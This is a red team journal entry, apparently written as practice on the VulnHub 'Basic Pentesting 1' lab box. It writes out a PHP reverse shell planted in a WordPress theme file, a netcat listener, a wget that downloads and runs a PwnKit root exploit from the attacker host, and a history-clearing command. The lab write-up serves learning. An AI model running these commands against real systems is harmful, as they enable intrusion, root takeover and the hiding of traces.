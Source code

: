 
## Red Team Journal – Day 002 – June 15, 2025

### Engagement Overview
**Target:** Basic Pentesting 1 (VulnHub)  
**Box IP:** 192.168.56.102  
**Attacker IP:** 192.168.56.10  
**Methodology:** Web enumeration → WordPress admin access → reverse shell → privesc via CVE-2021-4034 (PwnKit)  

---

### Objectives
- [x] Regain WordPress admin access
- [x] Inject PHP reverse shell via theme
- [x] Get reverse shell to Kali
- [x] Upgrade to interactive TTY
- [x] Enumerate for privilege escalation vectors
- [x] Exploit PwnKit to gain root
- [x] Clean up artifacts

---

### Initial Foothold

**Method:** PHP Reverse Shell via `404.php` in theme
  
**Payload used:**

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/4444 0>&1'"); ?>

Triggered with:

curl "http://vtcsec/secret/wp-content/themes/twentyseventeen/404.php"

**Listener setup on Kali:**

nc -lvnp 4444

Result:
Gained shell as www-data.

**Enumeration Highlights**

uname -a
cat /etc/os-release
ls /home
sudo -l
find / -perm -4000 -type f 2>/dev/null

**Key Findings:**

    OS: Ubuntu 16.04.3 LTS

    Kernel: 4.10.0-28-generic

    Local user: marlinspike

    No sudo access from www-data

    SUID binary found: /usr/bin/pkexec (used by PwnKit)

**Privilege Escalation**

Exploit: CVE-2021-4034 (PwnKit)
Approach: Static binary hosted on attacker machine

On Kali:

python3 -m http.server 8000

On Target:

cd /tmp
wget http://192.168.56.10:8000/PwnKit -O PwnKit
chmod +x PwnKit
./PwnKit

Result:

root@vtcsec:/tmp# whoami
root

**Cleanup Actions**

rm /tmp/PwnKit
history -c

Root shell obtained.
No persistence or root flag grabbed — purpose was shell lifecycle practice.


**Tools Utilized**

    nmap, gobuster, wpscan

    curl, netcat, wget, python3

    Metasploit (for ProFTPD attempt)

    Static PwnKit binary

**Key Takeaways**

    Always check /wp-login.php and XML-RPC for exposed WordPress logins

    Use encoded curl payloads to bypass broken command injection

    Static precompiled binaries save time vs. build errors (GLIBC mismatch)

    Do not use fg without setting proper terminal (stty raw -echo)

    After shell access, use enumeration before brute forcing — privilege escalation often lives in defaults

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE3MjAxMjg4ODVdfQ==
-->